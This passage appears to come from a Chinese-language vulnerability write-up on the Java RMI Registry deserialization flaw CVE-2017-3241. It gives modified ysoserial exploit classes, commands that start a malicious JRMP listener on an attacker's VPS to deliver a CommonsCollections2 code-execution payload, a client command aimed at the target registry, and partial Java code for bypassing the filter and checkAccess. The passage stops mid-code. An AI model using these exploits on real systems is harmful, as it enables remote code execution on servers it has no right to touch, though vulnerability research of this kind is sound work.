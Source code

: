 在我们的这个情形下，需要 ysoserial.exploit.JRMPListener 和 ysoserial.payloads.JRMPClient的配合使用。在使用前，需要先改造一下ysoserial：

1、复制ysoserial.exploit.RMIRegistryExploit并重命名为ysoserial.exploit.RMIRegistryExploitBypassFilter1。

2、将其ysoserial.exploit.RMIRegistryExploitBypassFilter1#exploit函数中的Remote对象生成方法进行替换。

如下图：

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599207050718-6fe1ca89-155d-4de0-b5d4-f4cbeff3d361.png)

接下来重新打包ysoserial（mvn clean package -DskipTests）并按如下步骤进行。

```
1、在自己的VPS服务器上启用JRMP监听，如前面所说：但是它是一个恶意的服务端，会向连接它的客户端发送攻击攻Payload，以攻击客户端。

java -cp ysoserial-0.0.5.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "calc.exe"

2、使用改造过的RMIRegistryExploitBypassFilter1向漏洞服务器发起请求

java -cp ysoserial-0.0.6-bit4woo-all.jar ysoserial.exploit.RMIRegistryExploitBypassFilter1 127.0.0.1 1099 JRMPClient sz.myvps.com:1099  
    
注意：这里使用的是CommonsCollections2这个gadget进行测试的，其他gadget还需再测试（因为我测试CommonsCollections1失败了~）。
        
关于这部分的利用可以参考bsmali4的文章《一次攻击内网rmi服务的深思》，其中包含了探索过程和另外2个绕过Payload。
```

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599533756927-110d7573-adf2-4df1-af04-1ba2572d377c.png)

漏洞触发的调用栈。

```
executeCall():208, StreamRemoteCall (sun.rmi.transport)
invoke(RemoteCall):379, UnicastRef (sun.rmi.server)
dirty(ObjID[], long, Lease):-1, DGCImpl_Stub (sun.rmi.transport)
makeDirtyCall(Set, long):378, DGCClient$EndpointEntry (sun.rmi.transport)
access$1600(DGCClient$EndpointEntry, Set, long):188, DGCClient$EndpointEntry (sun.rmi.transport)
run():596, DGCClient$EndpointEntry$RenewCleanThread$1 (sun.rmi.transport)
run():593, DGCClient$EndpointEntry$RenewCleanThread$1 (sun.rmi.transport)
doPrivileged(PrivilegedAction, AccessControlContext):-1, AccessController (java.security)
run():593, DGCClient$EndpointEntry$RenewCleanThread (sun.rmi.transport)
run():745, Thread (java.lang)
```



### 绕过checkAccess（java.rmi.AccessException: Registry.Registry.bind disallowed 的解决方案）

改造lookup方法：

1、复制ysoserial.exploit.RMIRegistryExploit并重命名为ysoserial.exploit.RMIRegistryExploitLookup。

2、在ysoserial.exploit.RMIRegistryExploitLookup这个类中创建一个新的lookup函数，代码如下：

```
//参考sun.rmi.registry.RegistryImpl_Stub.lookup方法进行修改。主要是将writeObject的参数类型改为Object。
    public static void lookup(Registry registry,Object var1) throws AccessException, NotBoundException, RemoteException {
        try {

            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

            RemoteRef ref = (RemoteRef) Reflections.getFieldValue(registry,"ref");
            StreamRemoteCall var2 = (StreamRemoteCall)ref.newCall((java.rmi.server.RemoteObject)registry, operations, 2, 4905912898345647071L);
```